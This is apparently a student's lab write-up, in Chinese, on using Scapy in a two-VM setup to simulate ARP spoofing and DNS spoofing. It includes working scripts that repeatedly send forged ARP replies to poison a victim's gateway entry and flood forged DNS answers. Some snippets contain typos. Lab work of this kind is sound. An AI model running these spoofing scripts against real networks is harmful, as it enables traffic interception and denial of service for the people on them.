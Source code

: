 ## Scapy实验的内容

（1）使用scapy在Linux下写程序来模拟完成一个简单的ARP欺骗。

（2）使用scapy在Linux下写程序来模拟完成一个简单的DNS欺骗。完整的攻击实现工作量和难度都很大。为了降低难度，可以不实现中间人攻击，而是直接让受害者把DNS服务器修改为欺骗者的地址。

<!--more-->

## scapy功能

Scapy是一个Python程序，使用户能够发送，嗅探和剖析并伪造网络数据包。**此功能允许构建可以探测，扫描或攻击网络的工具。**

Scapy是一个功能强大的交互式数据包操作程序。它能够伪造或解码大量协议的数据包，通过线路发送，捕获它们，匹配请求和回复等等。Scapy可以轻松处理大多数经典任务，如扫描，跟踪路由，探测，单元测试，攻击或网络发现。

## 实验步骤

实验使用两个linux ubuntu版本的虚拟机。

其中一个为攻击虚拟机，另一个为受害者。

对于攻击机：

下载python3-scapy

```
sudo apt install python3-scapy
```

![image-20220306190721919](https://gitee.com/Hijack8/tc/raw/master/img2/image-20220306190721919.png)

这是scapy的交互式界面。

虽然说交互式界面也能够完成很多事情，但是显然没有直接使用py文件进行编译来的舒服。所以，我们下面学习利用python的scapy包进行操作。

下载包

```
pip install scapy
```

运行一下ICMP包的测试程序。

```python
from sacpy.all import *

icmp_ping = IP(dst = 'baidu.com')/ICMP()
icmp_ping.show()
icmp_ping.show2()
```

![image-20220306192604994](https://gitee.com/Hijack8/tc/raw/master/img2/image-20220306192604994.png)

Scapy 提供了四种发送数据包的方法，`sendp, send, srp, sr`。`sendp` 和 `send` 是只**发送数据包**，区别是前者是发送二层数据包，而后者是发送三层数据包；`sr` 和 `srp` 与之类似，只不过这两种方法**还会接收返回的响应报文。**

我们尝试发送数据包

```python
from sacpy.all import *

icmp_ping = IP(dst = '192.168.153.128')/ICMP()
icmp_ping.show()
icmp_ping.show2()

ans, unans = sr(icmp_ping)
ans.summary()
```

![image-20220306193728998](https://gitee.com/Hijack8/tc/raw/master/img2/image-20220306193728998.png)

尝试构建arp欺骗包

先观察生成的arp包。

```python
from scapy.all import *
arp0 = Ether(src = ''dst = '192.168.153.128')/ARP()
arp0.show()
```

![image-20220306194255884](https://gitee.com/Hijack8/tc/raw/master/img2/image-20220306194255884.png)

```python
from scapy.all import *
import time
#构造一个Ether以太网协议封装的ARP包
arp0 = Ether(src = '00:0c:29:65:75:02',
             dst = 'ff:ff:ff:ff:ff:ff')/
			 ARP(hwsrc = '00:0c:29:65:75:02', 
                 psrc = '192.168.153.2',
                 pdst = '192.168.153.128',
                 hwdst = '00:0c:29:dd:b6:f3',
                 hwlen = 6, 
                 plen = 4)
#arp0.show()
#每隔一秒向受害机发一个包
while 1 :
    sendp(arp0)
    time.sleep(1)
```

观察结果：

这是正常的网关MAC

![image-20220306202056321](https://gitee.com/Hijack8/tc/raw/master/img2/image-20220306202056321.png)

这是攻击后的网关MAC，可以看到网关的MAC变成了自己主机的MAC。

![image-20220306202627758](https://gitee.com/Hijack8/tc/raw/master/img2/image-20220306202627758.png)

并且受害者主机也没法上网了。。。

![image-20220306202754953](https://gitee.com/Hijack8/tc/raw/master/img2/image-20220306202754953.png)

## DNS欺骗

构造DNS欺骗数据包，将baidu.com地址解析为1.1.1.1。

先观察生成DNS包的数据条目：

```python
from scapy.all import *

dns0 = IP()/UDP()/DNS()

dns0.show()
```

![image-20220306203142247](https://gitee.com/Hijack8/tc/raw/master/img2/image-20220306203142247.png)

```python
from scapy.all import *
import time
'''
dns0 = IP(src = '127.0.0.53',dst = '192.168.153.128')/UDP(dport = 33333,sport = 53)/DNS(
	qd = 'www.baidu.com',
	qr = 1,
	ra = 1,
	ancount = 1,
	an = DNSRR(
	    rrname = 'www.taobao.com',
	    type = 'A',
	    rclass = 'IN',
	    ttl = 900,
	    rdata = '1.1.1.1'
	)
	#opcode = 0
	)
'''
#伪造回应包
domain = 'www.google.com'
target_server = '192.168.153.128'
iplist = '192.168.153.2'

ID = []
for i in range(500): 
    #ID.append(random.randint(0,65535))
    ID.append(i)
fake_p = IP(dst=target_server,src=iplist)/\
         UDP(sport=53, dport=33333)/\
         DNS(id=ID,qr=1,ra=1,
          qd=DNSQR(qname=domain,  qtype="A", qclass=1),
          an=DNSRR(rrname=domain,ttl = 7200,rdata="1.1.1.1")
          )
#dns0.show()
for i in range(65536):
    send(fake_p)
    time.sleep(0.1)
```

对于dns欺骗，要比arp欺骗多一个步骤，要先把受害机发送的dns查询报文截取到，在这里使用sniff进行嗅探。

![image-20220307084206795](https://gitee.com/Hijack8/tc/raw/master/img2/image-20220307084206795.png)

![image-20220307091720422](https://gitee.com/Hijack8/tc/raw/master/img2/image-20220307091720422.png)

本次实验虽然是可以在受害者机上抓取到攻击机发送的dns包，但是dns欺骗并没有成功。

